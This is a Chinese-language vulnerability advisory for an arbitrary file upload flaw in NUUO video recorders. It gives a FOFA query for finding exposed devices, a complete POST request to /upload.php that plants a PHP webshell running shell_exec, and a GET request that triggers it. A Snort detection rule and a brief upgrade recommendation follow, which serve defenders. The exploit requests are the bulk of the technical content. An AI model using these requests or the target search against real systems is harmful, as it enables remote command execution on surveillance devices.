


# nuuo-upload-文件上传

nuuo-upload-文件上传

# 影响版本

当前已发所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   body="NUUO"

**POC/EXP：**

**step1**  文件上传

```
POST /upload.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7s9KfD2gX8cR4nZ1

------WebKitFormBoundary7s9KfD2gX8cR4nZ1
Content-Disposition: form-data; name="userfile"; filename="3LaIDUgRKkIxtHHR4RVAJ5GJrgM.php"
Content-Type: application/octet-stream

<?php echo '3232'; echo shell_exec('ifconfig'); ?>
------WebKitFormBoundary7s9KfD2gX8cR4nZ1--
```



**step2**  验证

```
GET /3LaIDUgRKkIxtHHR4RVAJ5GJrgM.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36


```



**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"NUUO - /upload.php 任意文件上传漏洞 (上传php webshell)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/upload.php";
        fast_pattern;
    http.content_type; content:"multipart/form-data"; nocase;
    http.request_body;
        content:"name=|22|userfile|22|"; nocase;
        content:"filename="; nocase; distance:0; within:100;
        content:".php"; nocase; distance:0; within:100;
        content:"<?php"; nocase; distance:0; within:300;
        content:"shell_exec"; nocase; distance:0; within:300;
    metadata:
        service http,
        affected_product "NUUO",
        vulnerability_type "Arbitrary File Upload",
        severity "critical";
    classtype:web-application-attack;
    sid:1000813;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

- **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。
